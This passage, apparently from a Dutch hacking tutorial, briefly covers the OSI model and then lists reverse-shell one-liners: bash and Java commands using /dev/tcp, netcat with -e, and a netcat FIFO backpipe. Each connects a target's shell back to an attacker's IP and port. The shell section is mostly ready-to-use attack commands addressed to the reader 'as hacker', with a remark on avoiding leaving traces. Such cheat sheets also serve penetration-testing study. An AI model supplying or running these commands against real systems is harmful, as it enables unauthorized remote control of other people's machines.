 In laag 1 wordt de informatie uitgedrukt in bits, in laag 2 spreken we over frames. In laag 3 over packets en laag 4 over segments. Alles boven laag 4 is data.

Er zijn diverse ezelsbruggetjes om het OSI-model te onthouden. Één hiervan is *All people should try new dairy products*	

#Shells

##Reverse shell
Alhoewel een volledig interactieve shell soms niet nodig is om je doel te bereiken, is het wel een van de krachtigste toegangen die je als hacker kan krijgen. Een reverse shell is wanneer een computer naar jou terug verbind en vervolgens zijn shell of command line aan jou ter beschikking stelt.

Er zijn verschillende manieren om shells te bemachtigen, waaronder standaard met programmeertalen danwel de methodes met kant en klare agents.
 
Hieronder zal ik er een aantal plaatsen:
### Bash

    exec /bin/bash 0&0 2>&0 
    bash -i >& /dev/tcp/< ip >/< port > 0>&1

Mocht dit problemen geven probeer dan

    /bin/bash -i > /dev/tcp/< ip >/< port > 0<&1 2>&1

### Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/< ip >/< port >;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

### Netcat
Op oudere systemen zul je nog nc applicaties vinden met de [schakeloptie -e](https://explainshell.com/explain?cmd=nc+-e). Deze schakeloptie heeft als voordeel dat je een executable op kan geven welke, na het tot stand komen van een connectie, uitgevoerd zal moeten worden. Het is dan kinderlijk eenvoudig om een reverse shell op te zetten.

    nc -e /bin/sh < ip > < port >

Als je niet de beschikking hebt over een ouder systeem en er een modernere netcat beschikbaar is waarin de (onveilige) schakeloptie -e verwijderd is, dan kan je gebruik maken van een zogenaamde backpipe.

    mknod bp p; nc < ip > < port > 0<bp | /bin/bash 1>bp

Je maakt hier een block special file aan met [mknod](http://man7.org/linux/man-pages/man1/mknod.1.html), deze heeft als naam bp en als type p. Het type p betekend dat het een FIFO (first in first out) bestand is, waarbij we de standard output van de commando's van netcat naar /bin/bash terug naar netcat forwarden.

### Telnet ###

Heel af en toe kom je wel eens ene omgeving tegen waarin je geheel geen toegang hebt tot de netcat executable. Nu kun je deze introduceren (en zo extra sporen maken) of je kan gebruik maken van telnet. 
